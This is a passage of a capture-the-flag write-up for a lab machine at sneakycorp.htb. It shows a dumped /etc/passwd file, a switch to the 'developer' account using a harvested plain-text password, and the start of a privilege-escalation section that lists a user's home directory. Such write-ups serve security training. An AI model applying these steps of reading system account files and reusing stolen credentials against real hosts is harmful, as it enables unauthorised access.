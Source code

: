 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
low:x:1000:1000:,,,:/home/low:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:107:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
postfix:x:108:116::/var/spool/postfix:/usr/sbin/nologin
courier:x:109:118::/var/lib/courier:/usr/sbin/nologin
vmail:x:5000:5000::/home/vmail:/usr/sbin/nologin
developer:x:1001:1001:,,,:/var/www/dev.sneakycorp.htb:/bin/bash
pypi:x:998:998::/var/www/pypi.sneakycorp.htb:/usr/sbin/nologin
```

There are 2 users excluding roto that have a shell: low & developer.

Let's try the dev creds:

```
$ su developer
Password: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C

id
uid=1001(developer) gid=1001(developer) groups=1001(developer)
```

But the home directory of developer is `/var/www/dev.sneakycorp.htb`
the flag is not here.

We may look elsewhere.

## Privilege Escalation of Machine : from developer to low

```
ls -lh /home
total 8.0K
drwxr-xr-x 8 low   low   4.0K Jun  8 03:47 low
drwx------ 5 vmail vmail 4.0K May 19 21:10 vmail

ls -lhA /home/low
total 40K
lrwxrwxrwx 1 root root    9 May 19 21:09 .bash_history -> /dev/null
-rw-r--r-- 1 low  low   220 May 14 05:46 .bash_logout
-rw-r--r-- 1 low  low  3.5K May 14 05:46 .bashrc
drwxr-xr-x 3 low  low  4.0K May 16 03:34 .cache
drwx------ 3 low  low  4.0K May 14 13:21 .gnupg
drwxr-xr-x 3 low  low  4.0K May 16 03:37 .local
dr-x------ 2 low  low  4.0K May 16 03:30 .pip
-rw-r--r-- 1 low  low   807 May 14 05:46 .profile
drwxr-xr-x 2 low  low  4.0K Jun  8 03:47 .ssh
-rwxr-x--- 1 root low    33 Nov  9 10:36 user.txt
drwxr-xr-x 6 low  low  4.0K May 16 03:33 venv
```
